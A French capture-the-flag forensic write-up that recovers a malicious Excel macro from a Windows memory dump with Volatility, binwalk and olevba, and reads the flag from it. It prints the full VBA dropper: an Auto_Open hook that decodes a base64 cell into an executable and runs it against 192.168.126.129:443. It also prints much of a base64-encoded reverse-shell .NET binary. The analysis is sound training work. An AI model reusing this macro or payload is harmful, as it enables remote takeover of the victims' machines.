


# Write up: Inside


Catégorie :

```
forensic
```

Consigne :

```
Vous recevez une sauvegarde de la RAM d'un ordinateur qui a été corrompu. Identifiez le processus employé afin de trouver le flag et valider le challenge.<p>

Trouvez le flag de validation dans l'image ci-jointe : <p>

inside.zip : md5 **2ac45fd78a1ab4adb17b0aff41aa7bdb**<p>

```

Pièce jointe : 

```
inside.zip
```

Serveur :

```
CTFD
```

Points attribués :

```
60
```

Flag :

```
MARS{M@croIsBad}
```

## Solution

L'épreuve comporte une archive qui contient deux éléments : 

 - Une archive : mars@.zip
 - Un fichier dump mémoire : challenge.raw

L'archive est protégée par un mot de passe et contient un indice pour résoudre le challenge : *prenom_nom*. 
Le mot de passe de l'archive est **hack**.

Concernant le dump mémoire, une analyse rapide nous permet d'intuiter sur un problème avec Excel.


```
volatility -f Challenge.raw  imageinfo
Volatility Foundation Volatility Framework 2.6
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : Win7SP1x64, Win7SP0x64, Win2008R2SP0x64, Win2008R2SP1x64_24000, Win2008R2SP1x64_23418, Win2008R2SP1x64, Win7SP1x64_24000, Win7SP1x64_23418
                     AS Layer1 : WindowsAMD64PagedMemory (Kernel AS)
                     AS Layer2 : FileAddressSpace (/root/forensic/Challenge.raw)
                      PAE type : No PAE
                           DTB : 0x187000L
                          KDBG : 0xf80002bf10a0L
          Number of Processors : 1
     Image Type (Service Pack) : 1
                KPCR for CPU 0 : 0xfffff80002bf2d00L
             KUSER_SHARED_DATA : 0xfffff78000000000L
           Image date and time : 2019-01-31 13:06:13 UTC+0000
     Image local date and time : 2019-01-31 14:06:13 +0100

```


```
volatility -f Challenge.raw --profile Win7SP1x64 netscan

Extrait : 

0x24b2770          TCPv4    192.168.126.134:49159          192.168.126.129:443  CLOSED           0        ?jk?????jk???? 
0x574f010          TCPv4    192.168.126.134:49158          52.114.76.37:443     ESTABLISHED      2368     EXCEL.EXE      
0x1541f3c0         UDPv4    127.0.0.1:49774                *:*                                   2368     EXCEL.EXE      2019-01-31 13:05:19 UTC+00
```


```
volatility -f Challenge.raw --profile Win7SP1x64 pstree

Extrait

0xfffffa8002a4db30:explorer.exe                     1116   1088     27    645 2019-01-31 13:05:02 UTC+0000
. 0xfffffa800342eb30:EXCEL.EXE                       2368   1116     22    760 2019-01-31 13:05:12 UTC+0000
. 0xfffffa8002062b30:DumpIt.exe    
```


```
volatility -f Challenge.raw --profile Win7SP1x64 filescan > filescan

more filescan |grep "xlsm"

0x00000000379c4380      1      1 RW-r-- \Device\HarddiskVolume1\Users\Natalie Portman\Documents\Classeur1.xlsm
0x000000003c813960      1      0 R--r-- \Device\HarddiskVolume1\Users\Natalie Portman\Documents\Classeur1.xlsm
0x000000003dd5da70     16      0 R--r-- \Device\HarddiskVolume1\Users\Natalie Portman\Documents\Classeur1.xlsm
```


```
volatility -f Challenge.raw--profile Win7SP1x64 dumpfiles -Q 0x00000000379c4380 --dump-dir=./

DataSectionObject 0x379c4380   None   \Device\HarddiskVolume1\Users\Natalie Portman\Documents\Classeur1.xlsm
SharedCacheMap 0x379c4380   None   \Device\HarddiskVolume1\Users\Natalie Portman\Documents\Classeur1.xlsm


fichiers extraits : 

file.None.0xfffffa800342e280.vacb   <==  Microsoft Excel 2007+
file.None.0xfffffa8003439010.dat
```

Recherche des éléments dans le fichier .xls notamment du VBA.

Pour installer olevba sur kali :  `pip install -U oletools`

```python 
olevba file.None.0xfffffa8003439010.dat 
olevba 0.53.1 - http://decalage.info/python/oletools
Flags        Filename                                                         
-----------  -----------------------------------------------------------------
OpX:MASIH--- file.None.0xfffffa8003439010.dat
===============================================================================
FILE: file.None.0xfffffa8003439010.dat
Type: OpenXML
-------------------------------------------------------------------------------
VBA MACRO ThisWorkbook.cls 
in file: xl/vbaProject.bin - OLE stream: u'VBA/ThisWorkbook'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO Feuil1.cls 
in file: xl/vbaProject.bin - OLE stream: u'VBA/Feuil1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Public Function ConvertFileToBase64(strFilePath As String) As String

    Const UseBinaryStreamType = 1

    Dim streamInput: Set streamInput = CreateObject("ADODB.Stream")
    Dim xmlDoc: Set xmlDoc = CreateObject("Microsoft.XMLDOM")
    Dim xmlElem: Set xmlElem = xmlDoc.createElement("tmp")
    
    streamInput.Open
    streamInput.Type = UseBinaryStreamType
    streamInput.LoadFromFile strFilePath
    xmlElem.DataType = "bin.base64"
    xmlElem.nodeTypedValue = streamInput.Read
    ConvertFileToBase64 = Replace(xmlElem.text, vbLf, "")
    
    Set streamInput = Nothing
    Set xmlDoc = Nothing
    Set xmlElem = Nothing
    
End Function

Public Sub ConvertBase64ToFile(strFilePath As String, strBase64 As String)

    Const UseBinaryStreamType = 1
    Const SaveWillCreateOrOverwrite = 2

    Dim streamOutput: Set streamOutput = CreateObject("ADODB.Stream")
    Dim xmlDoc: Set xmlDoc = CreateObject("Microsoft.XMLDOM")
    Dim xmlElem: Set xmlElem = xmlDoc.createElement("tmp")
    
    xmlElem.DataType = "bin.base64"
    xmlElem.text = strBase64
    streamOutput.Open
    streamOutput.Type = UseBinaryStreamType
    streamOutput.Write = xmlElem.nodeTypedValue
    streamOutput.SaveToFile strFilePath, SaveWillCreateOrOverwrite
    
    Set streamOutput = Nothing
    Set xmlDoc = Nothing
    Set xmlElem = Nothing
    
End Sub


Public Sub main()

Dim swh As Object
Dim waitOnReturn As Boolean: waitOnReturn = True
Dim windowStyle As Integer: windowStyle = 1

'D�codage des donn�es

Dim res As String
res = ThisWorkbook.ActiveSheet.Range("DE587").Value
'Sauvegarde des donn�es dans output.bin

Call ConvertBase64ToFile("output.bin", res)

'Execution du binaire d�ploy�
Set wsh = VBA.CreateObject("WScript.Shell")
wsh.Run "cmd.exe /S /C output.bin 192.168.126.129 443", windowStyle, waitOnReturn

End Sub


Sub Auto_Open()
    Dim code As Variant
    ' Malicious code will be at DF587
    code = ThisWorkbook.ActiveSheet.Range("DF587").Value
End Sub
+------------+-----------------+-----------------------------------------+
| Type       | Keyword         | Description                             |
+------------+-----------------+-----------------------------------------+
| AutoExec   | Auto_Open       | Runs when the Excel Workbook is opened  |
| Suspicious | Open            | May open a file                         |
| Suspicious | Shell           | May run an executable file or a system  |
|            |                 | command                                 |
| Suspicious | WScript.Shell   | May run an executable file or a system  |
|            |                 | command                                 |
| Suspicious | Run             | May run an executable file or a system  |
|            |                 | command                                 |
| Suspicious | CreateObject    | May create an OLE object                |
| Suspicious | ADODB.Stream    | May create a text file                  |
| Suspicious | SaveToFile      | May create a text file                  |
| Suspicious | Write           | May write to a file (if combined with   |
|            |                 | Open)                                   |
| Suspicious | output          | May write to a file (if combined with   |
|            |                 | Open)                                   |
| Suspicious | Hex Strings     | Hex-encoded strings were detected, may  |
|            |                 | be used to obfuscate strings (option    |
|            |                 | --decode to see all)                    |
| IOC        | 192.168.126.129 | IPv4 address                            |
| IOC        | cmd.exe         | Executable file name                    |
+------------+-----------------+-----------------------------------------+
```

Nous comprenons qu'il y a un port ouvert via cmd et l'adresse ip : 192.168.126.129. Le port 443.

Pour connaître le flag, il faut s'interesser à la ligne : ThisWorkbook.ActiveSheet.Range("DF587").Value

Pour cela ouvrez le fichier .vacb qui est une archive. Le fichier **SharedStrings.xml** contient deux chaînes base64.


### Utilisation de foremost

```
foremost  file.None.0xfffffa800342e280.vacb

Résultat :
Le résultat de la commande se trouve dans le dossier output

cd output
ls -l
   00000000.xlsx      <===  il s'agit d'un fichier excel

```

Ensuite, lancer le tableur Calc de Libreoffice pour lire le fichier **00000000.xlsx**



On voit deux chaines base64 en DE587 et DF587


### Utilisation de binwalk 

```
binwalk -e  file.None.0xfffffa800342e280.vacb


le resultat se trouve dans le répertoire : _file.None.0xfffffa800342e280.vacb.extracted

ls -l _file.None.0xfffffa800342e280.vacb.extracted

 0.zip
 '[Content_Types].xml'
 docProps
 _rels
 xl
```

Réaliser une recherche des chaînes base64 sur le répertoire **_file.None.0xfffffa800342e280.vacb.extracted**

```
grep -Rni "AAAAAAAAA" _file.None.0xfffffa800342e280.vacb.extracted


Résultat : 

grep -Rni "AAAAAAAA" 
xl/sharedStrings.xml:2:<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="3" uniqueCount="3"><si><t>SALUT</t></si><si><t>TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1vZGUuDQ0KJAAAAAAAAABQRQAATAEDALFiUVwAAAAAAAAAAOAAIgALATAAAA4AAAAIAAAAAAAAWiwAAAAgAAAAQAAAAABAAAAgAAAAAgAABAAAAAAAAAAGAAAAAAAAAACAAAAAAgAAAAAAAAMAYIUAABAAABAAAAAAEAAAEAAAAAAAABAAAAAAAAAAAAAAAAgsAABPAAAAAEAAAKAFAAAAAAAAAAAAAAAAAAAAAAAAAGAAAAwAAACoKwAAHAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAIAAACAAAAAAAAAAAAAAACCAAAEgAAAAAAAAAAAAAAC50ZXh0AAAAYAwAAAAgAAAADgAAAAIAAAAAAAAAAAAAAAAAACAAAGAucnNyYwAAAKAFAAAAQAAAAAYAAAAQAAAAAAAAAAAAAAAAAABAAABALnJlbG9jAAAMAAAAAGAAAAACAAAAFgAAAAAAAAAAAAAAAAAAQAAAQgAAAAAAAAAAAAAAAAAAAAA8LAAAAAAAAEgAAAACAAUABCIAAKQJAAADAAIAAQAABgAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABswAwAKAQAAAQAAEQACFpoCF5ooDwAACnMQAAAKCgAGbxEAAAoLAAdzEgAACgwAB3MTAAAKgAEAAARzFAAACg1zFQAAChMEEQRvFgAACnIBAABwbxcAAAoAEQRvFgAAChdvGAAACgARBG8WAAAKFm8ZAAAKABEEbxYAAAoXbxoAAAoAEQRvFgAAChdvGwAAC

    Extrait ...
 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA</t></si>

<si><t>TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1vZGUuDQ0KJAAAAAAAAABQRQAATAEDANTqUlwAAAAAAAAAAOAAIgALATAAAA4AAAAIAAAAAAAA3i0AAAAgAAAAQAAAAABAAAAgAAAAAgAABAAAAAAAAAAGAAAAAAAAAACAAAAAAgAAAAAAAAMAYIUAABAAABAAAAAAEAAAEAAAAAAAABAAAAAAAAAAAAAAAIwtAABPAAAAAEAAAKAFAAAAAAAAAAAAAAAAAAAAAAAAAGAAAAwAAAAsLQAAHAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAIAAACAAAAAAAAAAAAAAACCAAAEgAAAAAAAAAAAAAAC50ZXh0AAAA9A0AAAAgAAAADgAAAAIAAAAAAAAAAAAAAAAAACAAAGAucnNyYwAAAKAFAAAAQAAAAAYAAAAQAAAAAAAAAAAAAAAAAABAAABALnJl

    Extrait .....


AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA</t></si></sst>


```


La recherche nous indique que les chaînes base64 se trouvent dans le fichier **./_file.None.0xfffffa800342e280.vacb.extracted/xl/sharedStrings.xml**

Il faut donc reconstituer le programme. il s'agit de deux programmes mais un seul contient les informations pour résoudre le challenge.

Il faut récupérer la deuxième chaine base64 contenue dans le fichier **./_file.None.0xfffffa800342e280.vacb.extracted/xl/sharedStrings.xml**


```python
echo "TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1vZGUuDQ0KJAAAAAAAAABQRQAATAEDANTqUlwAAAAAAAAAAOAAIgALATAAAA4AAAAIAAAAAAAA3i0AAAAgAAAAQAAAAABAAAAgAAAAAgAABAAAAAAAAAAGAAAAAAAAAACAAAAAAgAAAAAAAAMAYIUAABAAABAAAAAAEAAAEAAAAAAAABAAAAAAAAAAAAAAAIwtAABPAAAAAEAAAKAFAAAAAAAAAAAAAAAAAAAAAAAAAGAAAAwAAAAsLQAAHAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAIAAACAAAAAAAAAAAAAAACCAAAEgAAAAAAAAAAAAAAC50ZXh0AAAA9A0AAAAgAAAADgAAAAIAAAAAAAAAAAAAAAAAACAAAGAucnNyYwAAAKAFAAAAQAAAAAYAAAAQAAAAAAAAAAAAAAAAAABAAABALnJlbG9jAAAMAAAAAGAAAAACAAAAFgAAAAAAAAAAAAAAAAAAQAAAQgAAAAAAAAAAAAAAAAAAAADALQAAAAAAAEgAAAACAAUAQCIAAOwKAAADAAIAAQAABgAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABswAwAiAQAAAQAAEQACFpoCF5ooEAAACnMRAAAKCgAGbxIAAAoLAAdzEwAACgwAHxCNHQAAASXQAgAABCgUAAAKDQdzFQAACoABAAAEcxYAAAoTBHMXAAAKEwURBW8YAAAKcgEAAHBvGQAACgARBW8YAAAKF28aAAAKABEFbxgAAAoWbxsAAAoAEQVvGAAAChdvHAAACgARBW8YAAAKF28dAAAKABEFbxgAAAoXbx4AAAoAEQUU/gYCAAAGcx8AAApvIAAACgARBW8hAAAKJhEFbyIAAAoAKy8AEQQIbyMAAApvJAAACiYRBW8lAAAKEQRvJgAACgARBBYRBG8nAAAKbygAAAomABcTBivMCCwHCG8pAAAKANwHLAcHbykAAAoA3AYsBwZvKQAACgDcAABBTAAAAgAAACIAAADfAAAAAQEAAAsAAAAAAAAAAgAAABoAAADyAAAADAEAAAsAAAAAAAAAAgAAABIAAAAFAQAAFwEAAAsAAAAAAAAAGzACAEkAAAACAAARAHMWAAAKCgNvKgAACigrAAAKFv4BCwcsLwAABgNvKgAACm8kAAAKJn4BAAAEBm8mAAAKAH4BAAAEbywAAAoAAN4FDAAA3gAAKgAAAAEQAAAAABoAKEIABRgAAAEiAigtAAAKACoAAABCU0pCAQABAAAAAAAMAAAAdjQuMC4zMDMxOQAAAAAFAGwAAAB8AwAAI34AAOgDAAA8BQAAI1N0cmluZ3MAAAAAJAkAABQAAAAjVVMAOAkAABAAAAAjR1VJRAAAAEgJAACkAQAAI0Jsb2IAAAAAAAAAAgAAAVeVAiAJAgAAAPoBMwAWAAABAAAAJgAAAAQAAAACAAAAAwAAAAMAAAAtAAAADwAAAAEAAAACAAAAAQAAAAEAAAACAAAAAQAAAAAAuQIBAAAAAAAGAA4CJAQGAHsCJAQGAEIB8gMPAEQEAAAGAGoBHgMGAPEBHgMGANIBHgMGAGICHgMGAC4CHgMGAEcCHgMGAIEBHgMGAFYBBQQGADQBBQQGALUBHgMGAJwBwAIGAJ8EEgMGAK0DdQAKAKYEjAQGAAMDdQAGAFkDdQAGAHED/QQKAIQE8gMKAFME8gMGADADEgMGABkBJAQGAAEBEgMGAAEAEgMKAPICjAQGAK0CEgMGAG4EJAQGACYFEgMGALsAEgMKAEgD8gMKAJQD8gMGAGYDdQAGAMcDdQAGAK8AEgMGANoCEgMAAAAATQAAAAAAAQABAAEAEAAKA3oEQQABAAEAAAEAAFYAAABBAAIABAATAQAABwAAAGkAAwAEABEAugOVADMBJACZAFAgAAAAAJYAGQOdAAEAzCEAAAAAkQB/A6MAAgA0IgAAAACGGOwDBgAEAAAAAQBpBAAAAQB9BAAAAgD5AAkA7AMBABEA7AMGABkA7AMKACkA7AMQADEA7AMQADkA7AMQAEEA7AMQAEkA7AMQAFEA7AMQAFkA7AMQAGEA7AMVAGkA7AMQAHEA7AMQAHkA7AMQAMkA7AMGANkAEwEqAJEA7AMvAJEAAAM1AKEA7AM6APEAHAVAAIkA7AM6AKkA7AMGALEA7AMGALEAOgNJAAkBzgAQAAkBCQUVAAkBmQIVAAkB4gQVAAkByAQVAAkB0gMVABEB7ANPALEAkQBVALEAsARcALEA2wAGABkB5gBgAKkAqABkALEAtgRqACEB7wBvAKkA5wJ0AKkAsgJ4ACkBCwEGALkAfwBgADEBLAWHACEB4QIGAIEA7AMGAC4ACwCqAC4AEwCzAC4AGwDSAC4AIwDbAC4AKwDjAC4AMwDjAC4AOwDpAC4AQwDbAC4ASwD4AC4AUwDjAC4AWwDjAC4AYwAZAS4AawBDAS4AcwBQAWMAewCeAQEAEAAAAAQAGgB/AOQtAAACAASAAAABAAAAAAAAAAAAAAAAAHoEAAAEAAAAAAAAAAAAAACMAIgAAAAAAAQAAAAAAAAAAAAAAIwAEgMAAAAABAADAAAAAEludDMyAF9fU3RhdGljQXJyYXlJbml0VHlwZVNpemU9MTYAMkExMDNBNzg5MzREMUQ4OEUzREE4RTE5NzAxQTcyQkEwNUU1QUFEOQA8TW9kdWxlPgA8UHJpdmF0ZUltcGxlbWVudGF0aW9uRGV0YWlscz4AU3lzdGVtLklPAGdldF9EYXRhAG1zY29ybGliAGFkZF9PdXRwdXREYXRhUmVjZWl2ZWQAQXBwZW5kAElEaXNwb3NhYmxlAFJ1bnRpbWVGaWVsZEhhbmRsZQBzZXRfRmlsZU5hbWUAQmVnaW5PdXRwdXRSZWFkTGluZQBXcml0ZUxpbmUAb3V0TGluZQBWYWx1ZVR5cGUARGlzcG9zZQBQYXJzZQBDb21waWxlckdlbmVyYXRlZEF0dHJpYnV0ZQBHdWlkQXR0cmlidXRlAERlYnVnZ2FibGVBdHRyaWJ1dGUAQ29tVmlzaWJsZUF0dHJpYnV0ZQBBc3NlbWJseVRpdGxlQXR0cmlidXRlAEFzc2VtYmx5VHJhZGVtYXJrQXR0cmlidXRlAFRhcmdldEZyYW1ld29ya0F0dHJpYnV0ZQBBc3NlbWJseUZpbGVWZXJzaW9uQXR0cmlidXRlAEFzc2VtYmx5Q29uZmlndXJhdGlvbkF0dHJpYnV0ZQBBc3NlbWJseURlc2NyaXB0aW9uQXR0cmlidXRlAENvbXBpbGF0aW9uUmVsYXhhdGlvbnNBdHRyaWJ1dGUAQXNzZW1ibHlQcm9kdWN0QXR0cmlidXRlAEFzc2VtYmx5Q29weXJpZ2h0QXR0cmlidXRlAEFzc2VtYmx5Q29tcGFueUF0dHJpYnV0ZQBSdW50aW1lQ29tcGF0aWJpbGl0eUF0dHJpYnV0ZQBzZXRfVXNlU2hlbGxFeGVjdXRlAEJ5dGUAUmVtb3ZlAHJzLmV4ZQBTeXN0ZW0uUnVudGltZS5WZXJzaW9uaW5nAFN0cmluZwBGbHVzaABnZXRfTGVuZ3RoAE5ldHdvcmtTdHJlYW0AR2V0U3RyZWFtAFByb2dyYW0AU3lzdGVtAE1haW4AU3lzdGVtLlJlZmxlY3Rpb24ARXhjZXB0aW9uAGdldF9TdGFydEluZm8AUHJvY2Vzc1N0YXJ0SW5mbwBTdHJlYW1SZWFkZXIAVGV4dFJlYWRlcgBTdHJpbmdCdWlsZGVyAENtZE91dHB1dERhdGFIYW5kbGVyAERhdGFSZWNlaXZlZEV2ZW50SGFuZGxlcgBTdHJlYW1Xcml0ZXIAc3RyZWFtV3JpdGVyAFRleHRXcml0ZXIAc2V0X1JlZGlyZWN0U3RhbmRhcmRFcnJvcgAuY3RvcgBTeXN0ZW0uRGlhZ25vc3RpY3MAU3lzdGVtLlJ1bnRpbWUuSW50ZXJvcFNlcnZpY2VzAFN5c3RlbS5SdW50aW1lLkNvbXBpbGVyU2VydmljZXMARGVidWdnaW5nTW9kZXMARGF0YVJlY2VpdmVkRXZlbnRBcmdzAGFyZ3MAUnVudGltZUhlbHBlcnMAc2VuZGluZ1Byb2Nlc3MAU3lzdGVtLk5ldC5Tb2NrZXRzAE9iamVjdABUY3BDbGllbnQAU3RhcnQAZ2V0X1N0YW5kYXJkSW5wdXQAc2V0X1JlZGlyZWN0U3RhbmRhcmRJbnB1dABzZXRfUmVkaXJlY3RTdGFuZGFyZE91dHB1dABTeXN0ZW0uVGV4dABzZXRfQ3JlYXRlTm9XaW5kb3cASW5pdGlhbGl6ZUFycmF5AElzTnVsbE9yRW1wdHkAAAAAD2MAbQBkAC4AZQB4AGUAAAAAAE/vIBNTD+lPtVFt8P7PTWYABCABAQgDIAABBSABARERBCABAQ4EIAEBAg8HBxJJEk0SUR0FElUSWQIEAAEIDgUgAgEOCAQgABJxBSABARJNCAACARJ9EYCBBSAAEoCFBSACARwYBiABARKAiQMgAAIDIAAOBSABElUOBCAAEkUEIAEBHAMgAAgGIAISVQgIBwcDElUCEmEEAAECDgi3elxWGTTgiQMGEkUDBhEQBQABAR0OBgACARwSXQgBAAgAAAAAAB4BAAEAVAIWV3JhcE5vbkV4Y2VwdGlvblRocm93cwEIAQAHAQAAAAAHAQACcnMAAAUBAAAAAA4BAAlNaWNyb3NvZnQAACABABtDb3B5cmlnaHQgwqkgTWljcm9zb2Z0IDIwMTkAACkBACQ4ZDUxZGNhOS0xZWY0LTQ0M2MtODE1Ni05NTIxMTU1MTk2N2QAAAwBAAcxLjAuMC4wAABNAQAcLk5FVEZyYW1ld29yayxWZXJzaW9uPXY0LjUuMgEAVA4URnJhbWV3b3JrRGlzcGxheU5hbWUULk5FVCBGcmFtZXdvcmsgNC41LjIEAQAAAAAAAAAA1OpSXAAAAAACAAAARAAAAEgtAABIDwAAUlNEU3YPKNfVIN5DhEp8iwxsGeEBAAAAQzpcVXNlcnNcZGV2XERlc2t0b3BccnNccnNcb2JqXERlYnVnXHJzLnBkYgC0LQAAAAAAAAAAAADOLQAAACAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAwC0AAAAAAAAAAAAAAABfQ29yRXhlTWFpbgBtc2NvcmVlLmRsbAAAAAAA/yUAIEAAIyAmMhckJTwCADsHLwAKEwAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAQAAAAIAAAgBgAAABQAACAAAAAAAAAAAAAAAAAAAABAAEAAAA4AACAAAAAAAAAAAAAAAAAAAABAAAAAACAAAAAAAAAAAAAAAAAAAAAAAABAAEAAABoAACAAAAAAAAAAAAAAAAAAAABAAAAAACgAwAAkEAAABADAAAAAAAAAAAAABADNAAAAFYAUwBfAFYARQBSAFMASQBPAE4AXwBJAE4ARgBPAAAAAAC9BO/+AAABAAAAAQAAAAAAAAABAAAAAAA/AAAAAAAAAAQAAAABAAAAAAAAAAAAAAAAAAAARAAAAAEAVgBhAHIARgBpAGwAZQBJAG4AZgBvAAAAAAAkAAQAAABUAHIAYQBuAHMAbABhAHQAaQBvAG4AAAAAAAAAsARwAgAAAQBTAHQAcgBpAG4AZwBGAGkAbABlAEkAbgBmAG8AAABMAgAAAQAwADAAMAAwADAANABiADAAAAAaAAEAAQBDAG8AbQBtAGUAbgB0AHMAAAAAAAAANAAKAAEAQwBvAG0AcABhAG4AeQBOAGEAbQBlAAAAAABNAGkAYwByAG8AcwBvAGYAdAAAAC4AAwABAEYAaQBsAGUARABlAHMAYwByAGkAcAB0AGkAbwBuAAAAAAByAHMAAAAAADAACAABAEYAaQBsAGUAVgBlAHIAcwBpAG8AbgAAAAAAMQAuADAALgAwAC4AMAAAAC4ABwABAEkAbgB0AGUAcgBuAGEAbABOAGEAbQBlAAAAcgBzAC4AZQB4AGUAAAAAAFoAGwABAEwAZQBnAGEAbABDAG8AcAB5AHIAaQBnAGgAdAAAAEMAbwBwAHkAcgBpAGcAaAB0ACAAqQAgAE0AaQBjAHIAbwBzAG8AZgB0ACAAMgAwADEAOQAAAAAAKgABAAEATABlAGcAYQBsAFQAcgBhAGQAZQBtAGEAcgBrAHMAAAAAAAAAAAA2AAcAAQBPAHIAaQBnAGkAbgBhAGwARgBpAGwAZQBuAGEAbQBlAAAAcgBzAC4AZQB4AGUAAAAAACYAAwABAFAAcgBvAGQAdQBjAHQATgBhAG0AZQ